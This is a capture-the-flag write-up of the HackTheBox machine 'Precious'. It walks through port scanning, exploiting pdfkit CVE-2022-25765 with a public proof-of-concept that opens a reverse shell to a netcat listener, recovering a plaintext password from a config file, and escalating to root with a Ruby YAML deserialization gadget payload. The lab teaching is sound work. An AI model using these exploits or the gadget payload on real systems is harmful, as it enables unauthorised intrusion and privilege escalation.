



# Precious - Easy

Target IP: **10.129.228.98**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.228.98 -v```

Output shows standard port 22 for ssh and port 80 running Nginx 1.18.0.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add ```precious.htb``` to our hosts file and navigate.

We are greeted with this page, which has a functionality to enter a url to fetch a web page then convert it to a pdf.



My mind immediately jumps to a possible command injection. If the url is used as an argument to curl, we should be able to break out of it.

Let's first spin up an http server and enter its url, seeing if we get connections.

Indeed, we get hits.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-odnmhj7rhy]─[~]
└──╼ [★]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.98 - - [06/Oct/2026 18:05:58] "GET / HTTP/1.1" 200 -
142.93.224.178 - - [06/Oct/2026 18:05:58] code 501, message Unsupported method ('POST')
142.93.224.178 - - [06/Oct/2026 18:05:58] "POST /api/client/update?arch=amd64&commit=08059e95dacafe0bf6e5782f8e2c8ec9cd8c5a17&os=windows HTTP/1.1" 501 -
10.10.15.194 - - [06/Oct/2026 18:06:11] "GET /.dbeaver4/ HTTP/1.1" 200 -
10.10.15.194 - - [06/Oct/2026 18:06:11] code 404, message File not found
10.10.15.194 - - [06/Oct/2026 18:06:11] "GET /favicon.ico HTTP/1.1" 404 -
10.10.15.194 - - [06/Oct/2026 18:06:13] "GET /.dbeaver4/.metadata/ HTTP/1.1" 200 -
10.10.15.194 - - [06/Oct/2026 18:06:16] "GET /.ICEauthority HTTP/1.1" 200 -
10.10.15.194 - - [06/Oct/2026 18:06:21] "GET /cacert.der HTTP/1.1" 200 -
```

The pdf that comes out as a result contains all the information on the directory I started the server on.

Following this logic, perhaps we can put localhost as the url.

However, it seems like we cannot do that.



Let's capture one of these requests and look at the response.

It seems like the server is also running Phusion Passenger version 6.0.15 and uses Ruby as the scripting language.



Let's find out more about the output pdf with exiftool.

It tells us that it was generated by pdfkit v0.8.6.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-odnmhj7rhy]─[~/Downloads]
└──╼ [★]$ exiftool 0b5j9gl2jrz7ir077hc3auy9i80gd0zd.pdf 
ExifTool Version Number         : 13.25
File Name                       : 0b5j9gl2jrz7ir077hc3auy9i80gd0zd.pdf
Directory                       : .
File Size                       : 31 kB
File Modification Date/Time     : 2026:10:06 18:05:58-04:00
File Access Date/Time           : 2026:10:06 18:05:59-04:00
File Inode Change Date/Time     : 2026:10:06 18:05:58-04:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Perhaps there are publicly listed vulnerabilities for this version of pdfkit. Looking online, we find that it it vulnerable to CVE-2022-25765, an RCE vulnerability.

I found a [PoC](https://github.com/innocentx0/cve-2022-25765) here, let's try it.

After running the exploit, we catch a shell as ```ruby```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-odnmhj7rhy]─[~/CVE-2022-25765]
└──╼ [★]$ python3 CVE-2022-25765.py -u http://precious.htb -l 10.10.15.194 -p 4444
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-odnmhj7rhy]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.228.98 37888
whoami
ruby
```

There is a ```henry``` user, who we are looking to move laterally into.

```
ruby@precious:/var/www/pdfapp$ ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Oct 26  2022 .
drwxr-xr-x 18 root  root  4096 Nov 21  2022 ..
drwxr-xr-x  2 henry henry 4096 Oct 26  2022 henry
drwxr-xr-x  4 ruby  ruby  4096 Oct  6 18:05 ruby
```

Inside ```/home/ruby```, there is a configuration file that seems to contain ```henry```'s password.

```
ruby@precious:~$ pwd
/home/ruby
ruby@precious:~$ ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Oct  6 18:05 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 Oct  6 18:19 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle
ruby@precious:~/.bundle$ ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Oct  6 18:05 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

The password works.

```
ruby@precious:~$ su - henry
Password: 
henry@precious:~$ whoami
henry
```

We can proceed to get the user flag from here.

## Root Flag

```henry``` can run a ruby script as ```root```.

```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

The script reads a yaml file of dependencies and compares it to those that are installed.

```
henry@precious:/opt$ cat update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

However, this doesn't work as intended because ```dependencies.yaml``` is inside ```/opt/sample```.

```
henry@precious:/opt$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
Traceback (most recent call last):
	2: from /opt/update_dependencies.rb:17:in `<main>'
	1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
henry@precious:/opt$ ls -la ./sample
total 12
drwxr-xr-x 2 root root 4096 Oct 26  2022 .
drwxr-xr-x 3 root root 4096 Oct 26  2022 ..
-rw-r--r-- 1 root root   26 Sep 22  2022 dependencies.yml
```

The traceback tells us ```rb_sysopen``` is being used to try to open the file. Looking online, if we pipe the input, it runs as a system shell command, not as a string.

So if we create a new ```dependencies.yml``` file and enter in something like ```hi | /bin/bash```, we could escalate our privileges.

I shortly after realized of course, we don't have write access to ```/opt```.

Placing our file in ```~/``` works, but the payload is off.

```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
Traceback (most recent call last):
/opt/update_dependencies.rb:20:in `<main>': undefined method `each' for "hi | /bin/bash":String (NoMethodError)
```

A search online reveals many resources about YAML deserialization. The function used in the script is not secure and could lead to RCE.

Let's check the version of ruby.

```
henry@precious:~$ ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

This version is vulnerable to RCE through unsafe deserialization.

There is a payload on PayloadsAllTheThings that we can use here as our ```dependencies.yml``` file.

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Let's change to command on the ```git_set``` parameter to ```/bin/bash```. After we run the command again, we get ```root```.

```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
root@precious:/home/henry# whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
